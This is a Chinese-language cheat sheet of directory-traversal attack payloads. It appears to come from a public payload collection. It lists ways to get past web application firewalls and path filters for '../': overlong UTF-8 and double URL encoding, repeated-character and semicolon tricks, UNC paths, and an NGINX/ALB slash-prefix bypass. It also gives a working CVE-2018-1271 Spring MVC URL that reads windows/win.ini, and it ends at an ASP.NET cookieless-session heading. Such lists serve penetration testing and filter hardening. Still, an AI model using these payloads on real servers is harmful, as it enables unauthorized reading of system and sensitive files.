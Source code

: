 ### UTF-8 Unicode编码

```powershell
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

### 绕过 "../" 限制的方法

1. **重复字符绕过**：当遇到移除 `../` 字符的Web应用防火墙（WAF）时，可以通过重复这些字符来绕过。

 ``` ..././``` 

 ```...\.\```

1. **使用分号绕过**：通过在路径中使用分号 `;` 来代替 `../`。

```..;/
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt
```

### 双重URL编码

通过双重URL编码特定的字符来绕过限制。

```powershell
. = %252e
/ = %252f
\ = %255c
```

**例如**：利用Spring MVC目录遍历漏洞（CVE-2018-1271）

```powershell
http://localhost:8080/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
```

### UNC路径遍历绕过

攻击者可以将Windows UNC共享（'\UNC\shareame'）注入到软件系统中，可能会重定向访问到非预期位置或任意文件。

```powershell
\\localhost\c$\windows\win.ini
```

### NGINX/ALB绕过

在某些配置下的NGINX和ALB可以阻止路由中的遍历攻击。例如：`http://nginx-server/../../` 会返回400错误请求。

为了绕过此行为，只需在URL前添加正斜杠：`http://nginx-server////////../../`

### ASPNET无Cookie会话绕过

当启用了无Cookie会话状态时，ASP.NET会将Session ID直接嵌入到URL中。
